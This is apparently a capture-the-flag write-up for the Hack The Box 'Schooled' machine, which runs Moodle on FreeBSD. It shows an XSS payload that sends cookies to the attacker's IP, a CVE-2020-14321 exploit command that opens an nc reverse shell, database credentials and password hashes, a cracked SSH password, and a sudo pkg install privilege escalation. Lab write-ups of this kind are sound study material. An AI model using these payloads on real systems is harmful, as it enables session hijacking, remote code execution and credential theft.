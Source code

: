 ## Info
### Credential
 User          | Password         | Service | Note
---------------|------------------|---------|-------
phillips_manuel|                  |Moodle   |phillips_manuel@staff.schooled.htb
moodle         |PlaybookMaster2020|MySQL    |
jamie          |!QAZ2wsx          |System   |

### Web (80) 
- hostname: `schooled.htb`
**Moodle**
- subdomain: `moodle.schooled.htb`
- version: 3.6


### MySQL X (33060)
- The response `HY000` in the nmap result has no useful meaning. See [Error Message and Elements -- SQLSTATE](https://dev.mysql.com/doc/refman/8.0/en/error-message-elements.html).
- Connect using `mysqlsh --mx -u admin --password=admin -h $ip`.


## Path
### User
1. Got the hostname from the website.
2. The website metioned they using Moodle many times, so try to visit `moodle.schooled.htb` and get good luck.
3. Register an user.
4. `http://moodle.schooled.htb/moodle/admin/tool/dataprivacy/summary.php` has some system information, so I tried to view `http://moodle.schooled.htb/moodle/admin/tool/`, which showed a lot information, and got the version of moodle was about 3.6 in `upgrade.txt`.
5. In the announcement of the Math course, the teacher mentioned he would *check all students' MoodleNet Profile*, so I went check on the field an found it had XSS vulnerability.
- Payload: 
```
<script>document.location='http://10.10.16.9:13338/?c='+document.cookie</script>
```
- Result: 
```
10.10.10.234 - - [12/Jul/2021 02:39:23] "GET /?c=MoodleSession=0b6vl6fppoggoakvcji6icvkgr HTTP/1.1" 200 -
INFO:root:GET request,
Path: /favicon.ico
Headers:
Host: 10.10.16.9:13338
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.10.16.9:13338/?c=MoodleSession=0b6vl6fppoggoakvcji6icvkgr
```
6. Got the teacher account, but he was not manager. Found CVE-2020-14321 could allow teacher account become manager, so I used the script to become the manager and upload php file. Then I could visit `http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id` to execute command.
7. Got RCE using this command. Remember, it was a BSD machine.
```
$ python3 moodle/CVE-2020-14321.py  http://moodle.schooled.htb/moodle -c "bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 13337 >/tmp/f';" --cookie 4muhpe9dps0gvmb5l23eg740mg
 __     __     __   __  __   __              __  __     
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /| 
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz

Moodle 3.9 - Remote Command Execution (Authenticated as teacher)
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
                                                        
[+] Login on site: MoodleSession:4muhpe9dps0gvmb5l23eg740mg ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 13337 >/tmp/f';: ✓
[+] Keep breaking ev3rYthiNg!!

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.234 60266
sh: can't access tty; job control turned off
$ whoami
www
```
8. Found MySQL credential in `config.php`.
```
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);
```
9. Found common use commands at `/usr/local/bin` but not in `PATH`, including `python3`, `curl`, etc..
10. Logged in MySQL. Dumped all user credentials. Crack admin's password. Logged in as `jamie` using the cracked password `!QAZ2wsx` via SSH.
```
moodle@localhost [moodle]> select username, password, secret, lastlogin from mdl_user;
+-------------------+--------------------------------------------------------------+-----------------+------------+
| username          | password                                                     | secret          | lastlogin  |
+-------------------+--------------------------------------------------------------+-----------------+------------+
| guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |                 |          0 |
| admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |                 | 1608681411 |
+-------------------+--------------------------------------------------------------+-----------------+------------+
```
11. Gain User!
### Root
1. `jamie` can run `pkg install *` with `sudo`. So just followed GTFOBins and got root flag.
```
$ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
$ curl 10.10.16.9:13338/x-1.0.txz --output x-1.0.txz
$ sudo pkg install -y --no-repo-update ./x-1.0.txz
```

